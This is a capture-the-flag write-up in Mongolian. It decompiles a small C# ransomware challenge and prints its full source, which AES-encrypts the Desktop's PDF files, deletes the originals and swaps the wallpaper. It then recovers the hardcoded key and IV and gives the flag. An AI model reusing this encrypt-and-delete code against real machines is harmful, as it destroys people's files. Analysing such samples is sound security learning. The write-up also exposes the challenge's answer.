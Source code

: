 Өгөгдсөн ransomware нь C# дээр бичигдсэн тул эх кодыг нь decompile хийн гарган авах боломжтой байдаг.
Тиймээс .NET compiler ашиглан ямар2 үйлдэл хийж байгааг нь эх хувилбараар нь харах боломжтой.

JetBrains Dotpeek tool-ыг ашиглан decompile хийв:
```
// Decompiled with JetBrains decompiler
// Type: Program
// Assembly: ctfaa, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null
// MVID: F0DE5C4F-4DFE-4071-A926-68517EDCA074
// Assembly location: C:\Windows\Microsoft.NET\Framework\v4.0.30319\ctfaa.exe
// Compiler-generated code is shown

using System;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

internal class Program
{
  private const int SPI_SETDESKWALLPAPER = 20;
  private const int SPIF_UPDATEINIFILE = 1;
  private const int SPIF_SENDCHANGE = 2;
  private static readonly string key;

  [DllImport("user32.dll", CharSet = CharSet.Auto)]
  private static extern int SystemParametersInfo(
    int uAction,
    int uParam,
    string lpvParam,
    int fuWinIni);

  private static void Main(string[] args)
  {
    Program.EncryptFilesWithExtension(Environment.GetFolderPath(Environment.SpecialFolder.Desktop), ".pdf");
    if (Program.ChangeDesktopWallpaper("https://raw.githubusercontent.com/xyptonize/detective-iconan/refs/heads/main/test123.png"))
      return;
    Console.WriteLine("Failed to download the image. Please manually download it.");
  }

  private static void EncryptFilesWithExtension(string directoryPath, string extension)
  {
    foreach (string file in Directory.GetFiles(directoryPath, "*" + extension))
    {
      string contents = Program.EncryptString(System.IO.File.ReadAllText(file), Program.key);
      string path = file + ".locked";
      System.IO.File.WriteAllText(path, contents);
      Console.WriteLine("Encrypted: " + file + " -> " + path);
      System.IO.File.Delete(file);
      Console.WriteLine("Deleted original file: " + file);
    }
  }

  private static string EncryptString(string text, string key)
  {
    byte[] bytes1 = Encoding.UTF8.GetBytes(key);
    byte[] bytes2 = Encoding.UTF8.GetBytes(text);
    byte[] bytes3 = Encoding.UTF8.GetBytes("CTFWOW1234567890");
    using (Aes aes = Aes.Create())
    {
      aes.Key = bytes1;
      aes.IV = bytes3;
      using (ICryptoTransform encryptor = aes.CreateEncryptor(aes.Key, aes.IV))
        return Convert.ToBase64String(Program.PerformCryptography(bytes2, encryptor));
    }
  }

  private static string DecryptString(string cipherText, string key)
  {
    byte[] bytes1 = Encoding.UTF8.GetBytes(key);
    byte[] data = Convert.FromBase64String(cipherText);
    byte[] bytes2 = Encoding.UTF8.GetBytes("CTFHTR1234567890");
    using (Aes aes = Aes.Create())
    {
      aes.Key = bytes1;
      aes.IV = bytes2;
      using (ICryptoTransform decryptor = aes.CreateDecryptor(aes.Key, aes.IV))
        return Encoding.UTF8.GetString(Program.PerformCryptography(data, decryptor));
    }
  }

  private static byte[] PerformCryptography(byte[] data, ICryptoTransform cryptoTransform)
  {
    using (MemoryStream memoryStream = new MemoryStream())
    {
      using (CryptoStream cryptoStream = new CryptoStream((Stream) memoryStream, cryptoTransform, CryptoStreamMode.Write))
      {
        cryptoStream.Write(data, 0, data.Length);
        cryptoStream.FlushFinalBlock();
        return memoryStream.ToArray();
      }
    }
  }

  private static bool ChangeDesktopWallpaper(string url)
  {
    try
    {
      ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
      using (WebClient webClient = new WebClient())
      {
        string str = Path.Combine(Path.GetTempPath(), "wallpaper.png");
        webClient.DownloadFile(new Uri(url), str);
        Program.SystemParametersInfo(20, 0, str, 3);
        return true;
      }
    }
    catch (WebException ex)
    {
      Console.WriteLine("Error downloading file: " + ex.Message);
      return false;
    }
  }

  static Program()
  {
    Program.key = "CTFWoWRans0mwareMast3r0000000000";
  }

  public Program()
  {
    base.\u002Ector();
  }
}
```


Дээрх кодноос харвал тухайн програмын нь AES шифтлэлт ашиглан файлыг нууцалж байгаа ба түлхүүр нь:
Program.key = "CTFWoWRans0mwareMast3r0000000000";
IV :  byte[] bytes3 = Encoding.UTF8.GetBytes("CTFWOW1234567890");


Бидэнд анх өгөгдсөн encrypted text-ыг уг хоёр утгын тусламжтайгаар тайлах боломжтой.
https://www.devglan.com/online-tools/aes-encryption-decryption

Уг online tool-ыг ашиглан тайлах боломжтой.

AES Decryption хэсэгт
AES Encrypted Text: 8qVPkxlU0Zz8PAh1Gy1ZtS5d5C2FCjM+phr1EnTRMTI= (nest.pdf.locked файлын content)
Enter IV Used During Encryption(Optional): CTFWOW1234567890
Key Size in Bits: 256
Enter Secret Key used for Encryption: CTFWoWRans0mwareMast3r0000000000

Decrypt товчийг дарахад флаг гарж ирнэ:

Flag: nest{w0w_N1c3-s4v3}




